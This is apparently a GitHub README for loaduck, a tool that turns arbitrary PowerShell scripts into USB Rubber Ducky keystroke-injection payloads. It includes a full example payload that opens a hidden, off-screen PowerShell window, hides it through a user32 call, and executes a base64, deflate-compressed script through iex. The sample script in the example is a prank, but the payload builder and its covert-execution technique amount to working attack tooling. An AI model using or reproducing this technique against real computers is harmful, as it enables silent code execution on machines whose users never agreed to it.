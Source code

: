 # loaduck

PowerShell script bootstrapper for the Hak5 USB Rubber Ducky.

Written in PowerShell.

Targets Windows 7 and Windows 10, YMMV otherwise.

## How

PowerShell files can be dragged on to loaduck.ps1 to generate a .ps1.ducky.txt
file that can be used on the ducky.

Or you can use a command like:

    powershell .\loaduck.ps1 [ps1 filename]

This will generate:

    [ps1 filename].ducky.txt

The wrapper script zips your source PowerShell into a single line, then
injects it in an (almost) invisible payload that's fired from Win-R.

### Example

For example, given a (really annoying) PowerShell script of:

```powershell
For ($i=0; $i -le 2; $i++) {
    start https://www.youtube.com/watch?v=dQw4w9WgXcQ
}
rundll32.exe user32.dll,LockWorkStation
```
The script will be encoded into the following Ducky Script:

```
DELAY 5000
GUI r
DELAY 250
ALT SPACE
STRING M
DOWN
REPEAT 40
ENTER
STRING powershell -w hidden iex '(Add-Type n -pas -m ''[DllImport(\"user32\")]public static extern int ShowWindow(int h,int n);'')::ShowWindow((gps -Id $pid).MainWindowHandle,0);Read-Host|iex'
ENTER
DELAY 1000
STRING sal n New-Object;iex $(n IO.StreamReader($(n IO.Compression.DeflateStream($(n IO.MemoryStream(,$([Convert]::FromBase64String('c8svUtBQybQ1sFZQyVTQzUlVMAKxtLU1Faq5FICguCSxqEQho6SkoNhKX7+8vFyvMr+0pDQpVS85P1e/PLEkOcO+zDYlsNyk3DI8PSI5kKuWq6g0LyUnx9hIL7UiVaG0OLUIyAQK6PjkJ2eH5xdlB5cklmTm53HxcgEA')))),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd();
ENTER
```

The long PowerShell script creates the hidden PowerShell window that listens
for keystrokes (our minified annoying script in this case) and then runs them
when it receives and Enter key.

## Compression script

Borrowed from https://github.com/samratashok/nishang - that file remains GPL
licensed.

Small modifications have been made to reduce the final script size - see
https://github.com/thisismyrobot/loaduck/compare/4bd150a...master#diff-d36e9afee0b578300581569656ccd2da
for those changes.
